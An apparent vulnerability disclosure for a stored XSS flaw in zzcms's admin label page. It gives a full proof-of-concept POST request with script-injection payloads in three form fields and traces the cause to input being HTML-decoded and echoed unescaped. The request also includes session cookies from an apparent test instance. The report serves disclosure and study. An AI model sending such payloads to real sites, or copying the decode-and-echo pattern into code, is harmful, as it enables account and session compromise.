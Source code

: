 ### /admin/labelshow.php exists stored xss

**Vulnerability Process**

Visit /admin/labeladshow.php

![image-20240826194750839](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240826194750839.png)

Then enter the parameters

**POC**

```java
POST /admin/labelshow.php?action=add&channel=about HTTP/1.1
Host: zzcms:8786
Content-Length: 259
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://zzcms:8786
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://zzcms:8786/admin/labelshow.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: tablename=zzcms_zhaoshangclass; askclassid=0; PHPSESSID=4pj41bdnhl1msnbrl2lljv1iqm; __51cke__=; xywpwx_bakusername=admin; xywpwx_snsjjssbdvqm=aca496e77ae7ceff46c2f8e72f4235d5; qebak_efourcheck=be67da7f3e3c39cd439799a20c67f8b4; XDEBUG_SESSION=PHPSTORM; xywpwx_bakrnd=zPwzzERUvdP4; xywpwx_loginebakckpass=03269d863bac377ff8cfb81722e356e3; xywpwx_baklogintime=1724589372; PassWord=4297f44b13955235245b2497399d7a93; UserName=aaaa; userid=1; __tins__713776=%7B%22sid%22%3A%201724603456590%2C%20%22vd%22%3A%206%2C%20%22expires%22%3A%201724605579607%7D; __51laig__=34
Connection: keep-alive

title=1&title_old=1&cid=1&numbers=1&orderby=id&column=1&start=</textarea><script>alert(1)</script><textarea>&mids=</textarea><script>alert(2)</script><textarea>&ends=</textarea><script>alert(3)</script><textarea>&Submit=%E6%B7%BB%E5%8A%A0%2F%E4%BF%AE%E6%94%B9
```



The default is 1.txt then click on 1.txt

![image-20240826200502199](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240826200502199.png)

![image-20240826200511297](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240826200511297.png)

Can pop up 1, 2, 3

This means that xss exists at all three points

Code Analysis

in the labelclass.php

Actually, there is a global filter for our xss.

But here the incoming parameter is passed through the stripfxg function

```java
$start=stripfxg($_POST["start"],true);
$mids=stripfxg($_POST["mids"],true);
$ends=stripfxg($_POST["ends"],true);
```

看到stripfxg函数

```java
function stripfxg($string,$htmlspecialchars_decode=false,$nl2br=false) {//去反斜杠 
$string=stripslashes($string);//去反斜杠,不开get_magic_quotes_gpc 的情况下，在stopsqlin中都加上了，这里要去了
if ($htmlspecialchars_decode==true){
$string=htmlspecialchars_decode($string,ENT_QUOTES);//转html实体符号
}
if ($nl2br==true){
$string=nl2br($string);
}
return $string; 
}
```

But here's the catch.

```php
if ($channel!='about'){
checkstr($numbers,'num','调用记录数');
}
```

The value of our $channel parameter must be about

You can see that the htmlspecialchars_decode function is used to decode our input, resulting in no filtering of xss.

Then after the

```java
    <tr> 
      <td align="right" class="border" >解释（开始）</td>
      <td class="border" ><textarea name="start" cols="70" rows="10" id="start" ><?php echo $start?></textarea></td>
    </tr>
    <tr> 
      <td align="right" class="border" >解释（循环）</td>
      <td class="border" ><textarea name="mids" cols="70" rows="5" id="mids" ><?php echo $mids ?></textarea>      </td>
    </tr>
    <tr> 
      <td align="right" class="border" >解释（结束）</td>
      <td class="border" ><textarea name="ends" cols="70" rows="20" id="ends"><?php echo $ends ?></textarea></td>
    </tr>
```

Again, we entered our parameters into the page
